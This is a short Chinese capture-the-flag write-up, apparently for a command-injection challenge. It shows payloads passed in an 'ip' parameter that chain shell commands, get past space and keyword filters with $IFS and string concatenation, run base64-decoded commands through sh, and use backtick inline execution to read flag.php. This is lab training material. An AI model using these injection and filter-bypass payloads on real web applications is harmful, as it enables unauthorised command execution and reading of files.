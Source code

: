 # 考察知识点：

# 1.命令行注入

# 2.命令行注入下的绕过



参考文章：

https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/#%E5%91%BD%E4%BB%A4%E5%88%86%E9%9A%94%E4%B8%8E%E6%89%A7%E8%A1%8C%E5%A4%9A%E6%9D%A1%E5%91%BD%E4%BB%A4



https://xz.aliyun.com/t/3918#toc-4



# 1.根据题目和网站确定是命令行注入



# 2.ls列如文件目录

```javascript
/?ip=127.0.0.1|ls
```



![](images/79D7D77C565A4792A2E8A3F214907C2Fclipboard.png)

# 3. 读取flag.php内容发现限制了flag和空格。

空格经过多次测试发现只能使用$IFS\绕过空格限制

![](images/9C1F149AE666491A96CE655D6D8D51E6clipboard.png)

读取到了index.php的内容



# 4.发现对flag做了限制，并且过滤了很多通配符

此时可以采用字符串拼接的方法

构造payload:

```javascript
?ip=127.0.0.1;a=lag;b=f;cat$IFS$b$a.php
```

此时不能用$IFS\只能把后面的\去了才能出flag。玄学

![](images/6DF433F637F2487594F890E6C3437783clipboard.png)



# 方法二：

# 过滤bash不能用，但是sh没有过滤

```javascript
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```



# 方法三：

# 内联执行：

```javascript
cat$IFS`ls`
```



![](images/696642D651114DD8802D8F2833D9345Cclipboard.png)

